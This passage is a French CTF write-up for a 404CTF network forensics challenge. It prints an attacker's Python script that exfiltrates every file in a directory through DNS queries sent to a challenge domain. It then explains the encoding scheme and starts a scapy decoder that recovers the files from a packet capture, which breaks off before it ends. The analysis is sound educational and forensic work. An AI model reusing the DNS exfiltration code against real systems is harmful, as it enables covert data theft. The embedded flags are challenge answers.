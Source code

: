 ```python
    time.sleep(0.1)
    for i in range(len(content)//32):
        hostname = content[i * 32: i * 32 + 32].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    if len(content) > (len(content)//32)*32:
        hostname = content[(len(content)//32)*32:].decode()
        dns.resolver.resolve(hostname + ".hallebarde.404ctf.fr")
        time.sleep(0.1)
    dns.resolver.resolve("656E64.hallebarde.404ctf.fr")
    time.sleep(60)


if __name__ == "__main__":
    files = os.listdir()
    print(files)
    for file in files:
        print(file)
        exfiltrate_file(file)


flag = """404CTF{t3l3ch4rg3m3n7_b1z4rr3}"""
```

Flag: `404CTF{t3l3ch4rg3m3n7_b1z4rr3}`

## Partie 2

> Maintenant, nous avons besoin de savoir quels fichiers il a exfiltré.
>
> Format du flag : 404CTF{fichier1,fichier2,fichier3,...} 
>
> Le nom des fichiers doit être mis par ordre alphabétique.

Le code Python montre que l'attaquant utilise des requêtes DNS pour exfiltrer les fichiers:
- `never-gonna-give-you-up.hallebarde.404ctf.fr` indique le début de l'extraction d'un fichier;
- vient ensuite `X.hallebarde.404ctf.fr` où X est le nom du fichier encodé en hexadécimal;
- vient ensuite `626567696E.hallebarde.404ctf.fr` qui annonce le début de la donnée;
- viennent ensuite des paquets `X.hallebarde.404ctf.fr` où X comporte 32 bytes du fichier encodé en hexadécimal;
- enfin, `656E64.hallebarde.404ctf.fr` indique la fin de l'exfiltration du fichier.

On peut donc récupérer les fichiers grâce au code Python suivant:

```python
from struct import pack
from scapy.all import *

files = {}
IDLE, WAIT_NAME, WAIT_DATA = 0,1,2
processing = IDLE
current_file = ""
for packet in rdpcap('capture-reseau.pcapng'):
    if "IP" not in packet or not packet.haslayer(DNSQR) or packet["IP"].src != "192.168.122.55":
        continue
    name = packet[DNSQR].qname.decode()
    if ".hallebarde.404ctf.fr" not in name:
        continue
    if "656E64.hallebarde.404ctf.fr" in name:
        processing = IDLE
    if processing == WAIT_NAME:
        current_file = bytes.fromhex(name.split(".")[0]).decode()
        files[current_file] = b""
        processing = IDLE
    if processing == WAIT_DATA:
```